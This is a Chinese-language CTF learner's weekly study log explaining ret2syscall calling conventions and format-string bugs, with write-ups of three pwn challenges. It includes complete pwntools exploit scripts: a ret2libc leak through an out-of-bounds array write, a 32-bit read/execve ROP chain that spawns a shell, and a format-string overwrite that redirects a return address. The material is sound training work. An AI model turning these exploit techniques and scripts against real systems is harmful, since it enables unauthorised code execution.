# <font style="color:rgb(38, 38, 38);">完成事项</font>
+ 总结ret2syscall知识点并做题，深化对格式化字符串了解

# <font style="color:rgb(38, 38, 38);">下周待做事项</font>
+ 学习汇编，深入学习ret2syscall，打is

# <font style="color:rgb(38, 38, 38);">本周学习的知识分享</font>
### ret2syscall
#### 传参
##### 32位
**普通函数调用**
fun(a,b,c)参数从右至左依次压栈，最后压入返回地址，调用完后，清理栈
**系统调用，syscall**
1.EAX: 放置系统调用号，用于识别是什么函数
2.EBX: 函数第一个参数
3.ECX：函数第二个参数
4.EDX：函数第三个参数
5.ESI：第四个参数
6.EDI：第五个参数
**execve：0x1b**
##### 64位
**普通函数调用**
+ 前六个放在寄存器，超过六个存放在栈上
- 1.RDI:第一个参数
- 2.RSI:第二个参数
- 3.RDX:第三个参数
- 4.RCX:第四个参数
- 5.R8:第五个
- 6.R9:第六个
+ 举个栗子 fun(a,b,c)
* 1.a:RDI
- 2.b:RSI
- 3.c:RDX
* **系统调用**
- 1.RAX:设置系统调用号，不过32和64的调用号不一样
- 2.RDI:第一个参数
- 3.RSI:第二个
- 4.RDX:第三个
- 5.R10:第四个
- 6.R8:第五个
- 7.R9:第六个
* **execve：0x3b**
``` c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
+ 1.EBX:执行谁
 - + 执行所在地址。如果文件中没有bin/sh字符串怎么办，我们需要手动构建
 - + 思路： 手动构建read函数，例如构建 read(0, bss_addr, 8)32位：EAX=3, EBX=0, ECX=bss, EDX=8，64位：RAX=0, RDI=0, RSI=bss, RDX=8，
我们需要一个可以注入的可写区域，例如在bss上面，data上面，那我们第一次就是为了注入bin/sh\x00，第二次在进行手动构建execve,获取程序shell
+ 2.ECX：带什么“参数”启动？(Argv)
  - + 0，没有额外参数
+ 3. EDX：在什么“环境”下运行(Envp)


### 例题
#### 2025-浙江省省赛(预赛)-复现 rop
题目如下




可以看到这道题是一道菜单题，分为输入，输出，退出三个选项，而main开始时，我们可以看到在initial函数中，将s中全部初始化为零
我们进入input函数，可以看到，是开了canary的

观察程序，并没有发现溢出点，但是这个程序中存在个漏洞，那便是数组越界


在s+72的位置上，每成功完成一次input，这个数就加一，最开始位为0，而这个数决定了n9，n9用来判断函数是否继续进行
那么就有一个问题了，计数器在s+72上，同时我们能看到，这是指向QWORD类型指针，一次读取8字节的数据，那么当我们读到s[8]时，我们就会覆盖到s+72计数器的位置上，于是我们就可以覆盖计数器，虽然看似没有什么用，也不能覆盖到main的rbp，但是我们可负溢出，我们知道，在main基础上，又调用了input，于是我们可以尝试控制input返回地址，此时栈上面的情况是这样的
``` Plaintext
高地址
      |
      | s[1]                |
      | s[0]                |
      +---------------------+
      | Return Address      |
      +---------------------+
      | Input 函数的栈帧...   |
      |                     |
低地址 
```
于是很明显了，脚本如下
``` python
def input_num(val):
    p.recvuntil(b'>>')
    p.sendline(b'1')
    p.recvuntil(b"input your number:\n") 
    p.sendline(str(val).encode())
input_num(got_puts)
input_num(plt_puts)
input_num(start)
for i in range(6):
    input_num(0)
input_num(-2)
input_num(pop_rdi)
leaked_puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
```
插一嘴，atoll函数用于将字符串转化为lld，于是我们需要将输入的数字转化为字符串
通过这个脚本，可以知道libc基地址，之后重新利用就行了，但是这里main总是截取的是假地址，于是干脆直接重新运行程序，回到_libc_start了，通过这道题，也了解到一个常识，libc基地址结尾一般是000
``` python
#!/usr/bin/env python3

from pwn import *
from LibcSearcher import *
# 设置环境，根据你的实际文件名修改
context.log_level = 'debug'
context.arch = 'amd64'
p = remote('ctf.a1natas.com', 26971)
#p = process('./zhejiang_rop')
elf = ELF('./zhejiang_rop')
libc = ELF('libc-2.31.so')
got_puts = elf.got['puts']
plt_puts = elf.plt['puts']
main_addr = 0x4014A5
pop_rdi = 0x401563
ret_addr = 0x40101a
start=elf.entry
def input_num(val):
    p.recvuntil(b'>>')
    p.sendline(b'1')
    p.recvuntil(b"input your number:\n") 
    p.sendline(str(val).encode())
input_num(got_puts)
input_num(plt_puts)
input_num(start)
for i in range(6):
    input_num(0)
input_num(-2)
input_num(pop_rdi)
leaked_puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(f"Leaked puts address: {hex(leaked_puts_addr)}") 
libc_base = leaked_puts_addr - libc.sym['puts']
print(f"Libc base address: {hex(libc_base)}")
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
print(f"system address: {hex(system_addr)}")
print(f"/bin/sh address: {hex(binsh_addr)}")

input_num(binsh_addr)
input_num(ret_addr)
input_num(system_addr)
for i in range(6):
    input_num(0)
input_num(-2)
input_num(pop_rdi)

p.interactive()
```
#### 32sys

这个就是最基础的，只不过有一个坑，虽然IDA中写的是EBP-64h，也就是按照静态编译，我们要溢出104个，但是由于涉及到栈对齐的原因，按照16字节对齐，我们需要溢出112，也就是108+4，虽然我在GDB调试中，显示的是116，如图


但是为什么会这样呢，因为我输入了200个字符进去，也就是说会覆盖完到返回地址，即112处，此时栈上为daab，由于到了返回地址，程序还要继续执行，于是esp加了4，变成了116.还有，我碰到了特别一个反人类的，那就是eaab之后的都是多余的数据，显示的内容一直让我还以为是从eaab到yaab是填充到返回地址的数据，结果在这里被卡住了半天
#### 32多系统调用

这道题没有查询到bin/sh 字符串，于是我们需要自己构造，通过构建read函数，将/bin/sh字符串写入bss段内，最后再构造execve函数，拿到shell
```python
#! /usr/bin/env python3
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
context.os = 'linux'
p = remote('pwn.challenge.ctf.show', 28195) 
elf = ELF('./32sysdxt')
pop_eax = 0x080bb2c6        
pop_edx_ecx_ebx = 0x0806ecb0 
int_0x80 = 0x0806F350        
bss_addr = elf.bss() + 0x100 
payload = b'a' * 44
payload += p32(pop_eax) + p32(3)
payload += p32(pop_edx_ecx_ebx)
payload += p32(0x10) + p32(bss_addr) + p32(0) 
payload += p32(int_0x80)
payload += p32(pop_eax) + p32(0xb)
payload += p32(pop_edx_ecx_ebx)
payload += p32(0) + p32(0) + p32(bss_addr)    
payload += p32(int_0x80)
p.recvuntil(b'where is my system?')
p.sendline(payload)
sleep(0.5)
p.send(b"/bin/sh\x00")
p.interactive()
```
+ > 注：需要注意的一点，我们在搜索int 0x80时不要这么搜索，搜索出来的指令后面跟的不一定是ret，因此我们需要这么搜索
直接搜 opcode ，int 0x80 的机器码是 cd 80。 ret 的机器码是 c3。 我们要搜的是 cd 80 c3 连在一起的地址。
```bash
ROPgadget --binary ./32sysdxt --opcode cd80c3
```
#### fmt题源周一的一个ctf比赛








+ -  1.能看到首先进行了人机验证
  -  2.之后有三轮跟上帝对话，很明显能看到是格式化字符串漏  洞，同时我们能看到有后门函数，那我们的目标很简单，就是最后要跳转到这个后门函数中。首先查保护，发现保护基本全开，那么我们首先势必要计算出程序及地址。
  -  3.通过调试可以看出，第十五个参数指向了main+121的地方，那么我们可以首先打印出第十五个参数的地址计算出基地址。
  - 4.由于地址随机，那么我们需要通过栈地址之间的偏移来进行修改。思路如下，我们发现，第十个参数指向第十四个参数，那么我们可以通过第十个参数修改第十四个参数指向的内容，在我们运行完talk_with_god时，返回地址是第十一个参数game+121，因此我们修改这个地址，指向后门函数来达到劫持程序流的意图
* 脚本如下
```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'

elf = ELF('./fmt')
p = process('./fmt')
def input_answer():
    for i in range(5):
        p.recvuntil(b"what's ")
        num1 = int(p.recvuntil(b" ", drop=True))
        p.recvuntil(b"add ")
        num2 = int(p.recvuntil(b"\n", drop=True))
        p.sendline(str(num1 + num2).encode())

input_answer()
p.recvuntil(b"Cherish it\n")

def talk(payload):
    p.recvuntil(b"[2]leave\n")
    p.sendline(b"1")
    p.recvuntil(b"Input:\n")
    p.send(payload)
    p.recvuntil(b"Your input:")
log.info("泄露基地址和栈地址")
talk(b"%15$p,%10$p")
raw_data = p.recvline()
data_str = raw_data.split(b'[')[0].strip().decode()
leaks = data_str.split(',')
leak_code = int(leaks[0], 16)
base_addr = leak_code - (elf.symbols['main'] + 121)
success_addr = base_addr + elf.symbols['success']
log.success(f"Success 地址: {hex(success_addr)}")
leak_stack = int(leaks[1], 16)
target_stack_byte = (leak_stack - 0x18) & 0xFF
log.info(f"计算出的目标尾字节: {hex(target_stack_byte)}")
log.info("修改 Offset 14 指向返回地址")
payload_2 = f"%{target_stack_byte}c%10$hhn".encode()
talk(payload_2)
log.info("利用 Offset 14 写入 Success")
target_val = (success_addr + 8) & 0xFFFF
payload_3 = f"%{target_val}c%14$hn".encode()
p.recvuntil(b"[2]leave\n")
p.sendline(b"1")
p.recvuntil(b"Input:\n")
p.send(payload_3)
p.interactive()
```
首先我们进行五次人机验证，之后打印出两个地址，一个用来计算基地址，另一个我们发现0x50和0x38相差0x18，差值不变，于是我们用差值泄露实际上的返回地址，之后我们通过%n写入，通过第十个参数将第十四个参数的值的指向转变为指向返回地址，之后我们通过第十四个参数，将其指向的返回地址转变为后门函数的地址，由于涉及到栈对齐，需要+8进行平衡，由于只涉及到后面四字节的变化，因此进行0xFFFF按位与，最后当talk_with_god执行完，就跳转到后门函数
# <font style="color:rgb(38, 38, 38);">本周学习总结</font>
+ 学习ret2syscall,格式化字符串

# <font style="color:rgb(38, 38, 38);">杂项</font>
